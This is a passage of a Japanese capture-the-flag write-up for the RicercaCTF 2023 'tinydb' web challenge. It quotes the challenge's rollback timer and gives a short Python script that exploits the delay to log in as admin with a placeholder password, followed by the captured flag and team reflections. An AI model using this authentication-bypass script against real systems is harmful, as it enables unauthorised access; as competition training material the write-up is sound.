 ### 解法
`rollback()`が呼び出されてランダムなパスワードで初期化されるまでに、2~数秒の猶予があることがわかる。
つまり、2~数秒後を狙って、`***...***`というパスワードで`admin`としてログインを試みればいいです。

```typescript
  setTimeout(() => {
    // Admin password will be changed due to hacking detected :(
    if (auth.username === "admin" && auth.password !== getAdminPW()) {
      rollback();
    }
  }, 2000 + 3000 * Math.random()); // no timing attack!
```

したがって、以下のようなスクリプトを書きます。
```python
import httpx

BASE_URL = "http://tinydb.2023.ricercactf.com:8888"

s = httpx.Client()
s.get(BASE_URL)

for i in range(10):
    s.post(f"{BASE_URL}/set_user", json={
        'username': 'y'*(i+1),
        'password': 'y'*(i+1)
    })

r = s.post(f"{BASE_URL}/get_flag", json={
        'username': 'admin',
        'password': '*'*32
    })
print(r.text)
# {"flag":"great! here is your flag: RicSec{j4v45cr1p7_15_7000000000000_d1f1cul7}"}
```

この問題は50solvesくらいあったのですが、20solvesの問題は解けて50solvesの問題は解けない人たちになってました。
他のメンバーもパスワードが`***...***`になっていることには気づいてたのですが、解けませんでした。

# 最後に
他のメンバーのwriteup(Crypto):
> https://shibaken28.github.io/my-blog-4/contents/ricercactf/

数チームとのポイント差は詰まっていて、ポイント差はWeb問1, 2問で、
解けていれば順位がガラッと変わりそうだったのでとても悔しいです。
私たちにはWeb問を解く/取り組むよりはPwn/Rev/Cryptoに取り組む人しかいないので、
改善したいなと思ってます。

RicercaCTF 2023を開催してくださり、ありがとうございました！  
https://2023.ctf.ricsec.co.jp/

[^1]: 読み方：すしふぁーすと
